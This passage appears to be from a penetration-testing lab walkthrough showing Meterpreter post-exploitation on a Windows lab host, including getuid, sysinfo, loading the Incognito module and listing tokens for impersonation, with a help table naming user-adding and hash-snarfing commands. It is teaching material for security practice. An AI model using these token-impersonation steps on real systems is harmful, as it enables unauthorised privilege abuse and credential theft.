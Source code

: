     2. Get User ID
        
        ```Bash
        (Meterpreter 2)(C:\Windows\system32) > getuid
        Server username: NT AUTHORITY\SYSTEM
        ```
        
    3. Get System info
        
        ```Bash
        (Meterpreter 2)(C:\Windows\system32) > sysinfo
        Computer        : PUNISHER
        OS              : Windows 10 (10.0 Build 19045).
        Architecture    : x64
        System Language : en_US
        Domain          : MARVEL
        Logged On Users : 7
        Meterpreter     : x64/windows
        ```
        

### Using Incognito for Token Operations

1. Show all modules available to load
    
    ```Bash
    (Meterpreter 2)(C:\Windows\system32) > load -l
    ```
    
2. **Load Incognito Module**:
    
    ```Shell
    load incognito
    ```
    
3. **Incognito Help**
    
    ```Bash
    Incognito Commands
    ==================
    
        Command                   Description
        -------                   -----------
        add_group_user            Attempt to add a user to a global group with all tokens
        add_localgroup_user       Attempt to add a user to a local group with all tokens
        add_user                  Attempt to add a user with all tokens
        impersonate_token         Impersonate specified token
        list_tokens               List tokens available under current user context
        snarf_hashes              Snarf challenge/response hashes for every toke
    ```
    
4. **List Available Tokens**:
    - For Users: `list_tokens -u`
    - For Groups: `list_tokens -g`
5. **List Tokens**
    
    ```Bash
    (Meterpreter 2)(C:\Windows\system32) > list_tokens -u
    